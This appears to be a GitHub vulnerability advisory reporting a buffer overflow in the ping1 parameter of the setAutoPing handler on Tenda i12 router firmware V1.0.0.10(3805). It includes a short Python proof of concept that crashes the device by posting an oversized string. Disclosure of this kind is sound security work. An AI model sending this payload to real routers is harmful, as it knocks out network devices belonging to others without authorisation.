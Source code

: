 The ping1 parameter in the formSetAutoPing function was found to contain a buffer overflow.
-------------------------------------------------------------------------------------------

### Overview

*   设备官网：[https://www.tenda.com.cn](https://www.tenda.com.cn/product/AX1806.html)
*   固件下载网站： [i12升级软件](https://www.tenda.com.cn/material/show/102572)

![image](https://github.com/user-attachments/assets/e4f804a8-3aa0-4719-9d8a-b5d40f0d3723)


### Affected version

V1.0.0.10(3805)

### Vulnerability details

`Tenda` Router **i12** V1.0.0.10(3805) was discovered to contain a buffer overflow in the module when handling request.`httpd/goform/setAutoPing`. You can create dos or getshell attacks by building payload

![image](https://github.com/user-attachments/assets/ac773b84-b811-4590-8ed3-c2892c967612)


### poc

This POC can result in a Dos.

```text-plain
import requests

url = "http://192.168.142.100/goform/setAutoPing"

data = {
    "linkEn": "1",
    "ping1": "A" * 1000  
}

response = requests.post(url, data=data)

print(f"Status Code: {response.status_code}")
print(f"Response Text: {response.text}")
```

![image](https://github.com/user-attachments/assets/0d721657-ab34-47d3-9fed-1430e6d5c85e)
